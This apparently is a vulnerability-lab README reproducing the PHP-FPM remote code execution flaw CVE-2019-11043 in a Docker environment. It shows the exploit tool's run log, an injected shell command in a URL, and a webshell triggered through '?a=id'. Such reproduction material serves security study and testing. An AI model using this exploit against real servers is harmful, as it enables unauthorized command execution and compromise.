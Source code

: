 # PHP-FPM Remote Command Execution (CVE-2019-11043)

[中文版本(Chinese version)](README.zh-cn.md)

There is a PHP remote code execution 0-Day discovered in Real World CTF 2019 Quals.

> Real World CTF 2019 Quals is a CTF challenge which was organized by Chaitin Tech in China.

References:

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

## Environment setup

Start a vulnerable PHP server through following command:

```
docker-compose up -d
```

After the environment is started, you can see the default page at `http://your-ip:8080/index.php`.

## Vulnerability Reproduce

Use this tool to reproduce the vulnerability, <https://github.com/neex/phuip-fpizdam>:

```
$ go run . "http://your-ip:8080/index.php"
2019/10/23 19:41:00 Base status code is 200
2019/10/23 19:41:00 Status code 502 for qsl=1795, adding as a candidate
2019/10/23 19:41:00 The target is probably vulnerable. Possible QSLs: [1785 1790 1795]
2019/10/23 19:41:02 Attack params found: --qsl 1790 --pisos 152 --skip-detect
2019/10/23 19:41:02 Trying to set "session.auto_start=0"...
2019/10/23 19:41:02 Detect() returned attack params: --qsl 1790 --pisos 152 --skip-detect <-- REMEMBER THIS
2019/10/23 19:41:02 Performing attack using php.ini settings...
2019/10/23 19:41:02 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/23 19:41:02 Trying to cleanup /tmp/a...
2019/10/23 19:41:02 Done!
```

Something is show that the process is finished successfully:

![](1.png)

A webshell is written in the background of PHP-FPM, visit `http://your-ip:8080/index.php?a=id` to trigger RCE:

![](2.png)

You should notice that only part of the PHP-FPM child process is polluted, so please try a few more times to execute the command.
